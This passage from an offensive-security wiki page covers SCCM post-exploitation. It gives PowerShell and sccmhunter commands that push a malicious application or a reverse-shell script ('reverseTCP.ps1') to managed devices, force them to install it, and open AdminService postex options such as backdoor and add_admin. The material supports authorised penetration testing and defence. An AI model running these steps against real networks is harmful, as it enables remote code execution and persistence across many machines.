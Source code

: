 ```powershell
# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

:::


### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the AdminService API, without using CMPivot, for post SCCM exploitation purpose.

::: tabs

=== UNIX-like

From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u "$USER" -p "$PASSWORD" -ip "site_server_IP"
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help ' for details):

Database Commands
=================
get_collection get_device get_lastlogon get_puser get_user

Interface Commands
==================
exit interact

PostEx Commands
===============
add_admin backdoor backup delete_admin restore script

Situational Awareness Commands
==============================
administrators console_users ipconfig osinfo sessions
cat disk list_disk ps shares 
cd environment ls services software
```
